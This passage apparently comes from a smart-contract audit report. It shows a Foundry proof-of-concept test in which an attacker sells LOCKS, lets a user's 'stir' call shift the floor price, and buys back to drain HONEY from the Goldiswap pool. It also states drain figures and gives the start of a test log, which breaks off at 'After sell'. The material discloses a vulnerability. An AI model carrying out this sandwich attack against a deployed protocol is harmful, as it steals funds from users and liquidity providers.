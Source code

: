 ```solidity
    console.log("market price\t", goldiswap.marketPrice());
    console.log("honey balance\t", honey.balanceOf(address(goldiswap)) / 1e18);

    console.log("\n  Attacker balances:");
    console.log("honey balance\t", honey.balanceOf(attacker) / 1e18);
    console.log("locks balance\t", goldiswap.balanceOf(attacker) / 1e18);

    vm.startPrank(attacker);
    goldiswap.sell(amount, 0);

    console.log("\nAfter sell");
    console.log("floor price\t", goldiswap.floorPrice());
    console.log("market price\t", goldiswap.marketPrice());
    console.log("honey balance\t", honey.balanceOf(address(goldiswap)) / 1e18);

    console.log("\n  Attacker balances:");
    console.log("honey balance\t", honey.balanceOf(attacker) / 1e18);
    console.log("locks balance\t", goldiswap.balanceOf(attacker) / 1e18);

    vm.startPrank(user);
    goldilocked.stir(amount * 6); // ~34863$

    console.log("\nAfter stir");
    console.log("floor price\t", goldiswap.floorPrice());
    console.log("market price\t", goldiswap.marketPrice());
    console.log("honey balance\t", honey.balanceOf(address(goldiswap)) / 1e18);

    console.log("\n  Attacker balances:");
    console.log("honey balance\t", honey.balanceOf(attacker) / 1e18);
    console.log("locks balance\t", goldiswap.balanceOf(attacker) / 1e18);

    vm.startPrank(attacker);
    goldiswap.buy(amount, type(uint256).max);

    console.log("\nAfter buy");
    console.log("floor price\t", goldiswap.floorPrice());
    console.log("market price\t", goldiswap.marketPrice());
    console.log("honey balance\t", honey.balanceOf(address(goldiswap)) / 1e18);

    console.log("\n  Attacker balances:");
    console.log("honey balance\t", honey.balanceOf(attacker) / 1e18);
    console.log("locks balance\t", goldiswap.balanceOf(attacker) / 1e18);
}
```

Test results show that 33 `HONEY` can be drained from the protocol in the best case. With a stir amount twice as large, the amount of `HONEY` stolen escalates to 945. When the stir amount is ten times greater, it increases to 5461.

```console
Ran 1 test for test/unit/Goldilocked.t.sol:UnitGoldilockedTest
[PASS] testPoC() (gas: 3443889)
Logs:

Before
  floor price    5810526315789473
  market price   19268478085335537
  honey balance  400000

  Attacker balances:
  honey balance  0
  locks balance  1000000

After sell
```